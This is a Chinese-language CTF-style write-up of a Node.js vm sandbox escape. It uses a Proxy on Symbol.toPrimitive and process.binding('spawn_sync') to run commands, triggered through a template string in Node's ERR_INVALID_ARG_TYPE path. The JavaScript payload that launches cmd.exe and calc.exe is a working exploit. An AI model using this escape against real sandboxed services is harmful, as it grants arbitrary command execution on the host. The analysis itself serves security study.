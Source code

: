 再来看看题目：题目中的 `Object.create(null)` 让我们不能直接用 `this` 获取沙箱外的对象；strict mode 使我们不能够使用 `arguments.callee.caller` 拿函数的调用者，所以唯一的想法是构造 Proxy。在 Proxy 对象中有很多代理方法，但是需要找到一个代理方法的函数参数是引用传递。

可以看到在 `Proxy#apply` 的参数中有一个 `argArray` 数组引用类型，符合利用要求；除此之外还有 `construct` 的 `argumentsList` 也是引用数组。能够找到一个 `[Symbol.toPrimitive]` 方法满足调用 apply 的条件，而该方法可以在模板字符串中触发。

另一个绕过点在于 `process.mainModule = null`，无法通过此拿到 module，但是可以通过 `process.binding` 拿到 Internal Binding，即内建的 CPP 模块。`process.moduleLoadList` 列出了所有 module 和 binding。

查阅源码可以得到对于 `spawn_sync` 的利用，其实际是 `child_process.spawnSync` 的内部实现，所以 Proxy 部分的 Payload 便是:

```js
const o = {
    [Symbol.toPrimitive]: new Proxy(_ => _, {
        apply(target, thisArg, argArray) {
            const proc = argArray.constructor.constructor("return process")();
            //return proc.mainModule.require("child_process").execSync('whoami').toString()
            process
                .binding('spawn_sync')
                .spawn({
                    args: [ 'cmd', '/c', "calc.exe" ],
                    file: 'C:\\Windows\\System32\\cmd.exe',
                    stdio: [
                        { type: 'pipe', readable: true, writable: false }
                    ]
                }).output[1].toString().trim()
        }
    })
}

console.log(`${o}`)
```

看 `test-process-binding-internalbinding-allowlist.js` 可以得到除了 `spawn_sync` binding 外，`fs`， `zlib` 等也可以调用。

## 触发点

接下来便是寻找触发点。

模板字符串在 node 源码中几乎无处不在，比如 `node/blob/v16.18.1/lib/internal/errors.js#L1183` 中的错误 `ERR_INVALID_ARG_TYPE`，将第三个参数传入了 `determineSpecificType`，若其为 object，则使用模板字符串嵌入 `constructor.name` ，即调用 `Symbol.toPrimitive` 。
所以这题的触发点可以是这个 `key.js#L581`。

```js
// key.js
if (typeof key !== 'string' &&
    !isArrayBufferView(key) &&
    !isAnyArrayBuffer(key)) {
  throw new ERR_INVALID_ARG_TYPE(
    'key',
    getKeyTypes(!bufferOnly, bufferOnly),
    key);
}

// node/blob/v16.18.1/lib/internal/errors.js#L874
if (typeof value === 'object') {
    if (value.constructor?.name) {
      return `an instance of ${value.constructor.name}`;
    }
  ...
}
```
